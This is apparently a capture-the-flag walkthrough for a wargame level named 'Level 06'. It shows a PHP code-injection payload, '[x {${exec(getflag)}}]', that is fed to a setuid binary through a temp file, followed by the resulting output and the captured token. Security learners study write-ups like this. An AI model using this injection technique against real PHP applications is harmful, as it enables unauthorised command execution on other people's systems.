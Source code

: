 # Level 06

# step 1 : analyze level06.php

# step 2 : php injection
```
$ echo '[x {${exec(getflag)}}]' > /tmp/injec.txt
$ ./level06 /tmp/injec.txt /tmp/injec.txt
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
